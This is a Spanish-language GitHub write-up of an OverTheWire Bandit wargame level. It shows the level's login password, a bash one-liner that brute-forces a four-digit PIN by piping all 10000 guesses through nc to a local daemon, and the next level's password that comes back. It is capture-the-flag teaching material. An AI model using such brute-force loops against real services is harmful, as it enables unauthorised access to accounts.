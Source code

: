 ## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#objetivo)

## Datos de acceso al nivel
bandit24
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#datos-de-acceso-al-nivel)

## Solución
```

bandit24@bandit:~$ for i in {0000..9999}; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i ; done | nc localhost 30002 | grep
 -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

bandit24@bandit:~$

```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#soluci%C3%B3n)

## Notas Adicionales
grep -v mensaje / filtra todas las lineas que no contengan el mensaje
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#notas-adicionales)

### Referencias
